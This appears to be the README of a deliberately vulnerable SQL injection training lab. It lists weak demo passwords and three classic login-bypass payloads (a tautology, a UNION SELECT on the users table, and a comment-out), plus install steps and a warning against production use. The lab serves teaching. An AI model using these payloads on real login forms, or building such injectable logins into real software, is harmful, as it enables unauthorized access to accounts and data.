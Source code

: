 # SQL Injection Learning Lab

---

## 🔐 All Login Credentials

### Admin Account (Full Privileges)
**Username:** `admin`  
**Password:** `admin123`  
**Access:** Full database control including sensitive data

### Regular User Accounts
| Username    | Password     | Role       |
|-------------|--------------|------------|
| `john_doe`  | `password123`| Developer  |
| `alice`     | `qwerty`     | Designer   |
| `bob_smith` | `letmein`    | Manager    |
| `charlie`   | `123456`     | Intern     |

### SQL Injection Demo Accounts
```
Username: ' OR '1'='1'-- 
Password: [any value]

Username: ' UNION SELECT null,username,null,null,null,null FROM users--
Password: [any value]

Username: admin'--
Password: [any value]
```

---

## 🛠️ Installation & Usage

```
# Clone and run
git clone https://github.com/Epic-Destroye-Op/Sql-Injection-Lab.git
cd Sql-Injection-Lab
python3 sql-lab.py
```
Access at: `http://yourip:5000 or http://localhost:5000`

---

**DO NOT DEPLOY IN PRODUCTION!**

---
.
                                        **made by EpicDestroyerOp**
